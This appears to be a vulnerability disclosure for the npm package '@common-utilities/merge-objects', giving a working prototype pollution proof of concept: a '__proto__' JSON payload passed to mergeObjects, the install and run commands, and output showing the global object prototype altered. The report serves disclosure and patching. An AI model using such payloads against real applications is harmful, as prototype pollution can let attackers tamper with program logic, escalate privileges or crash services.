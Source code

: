 # Description

`@common-utilities/merge-objects` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a = require("@common-utilities/merge-objects")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
a.mergeObjects(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @common-utilities/merge-objects # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

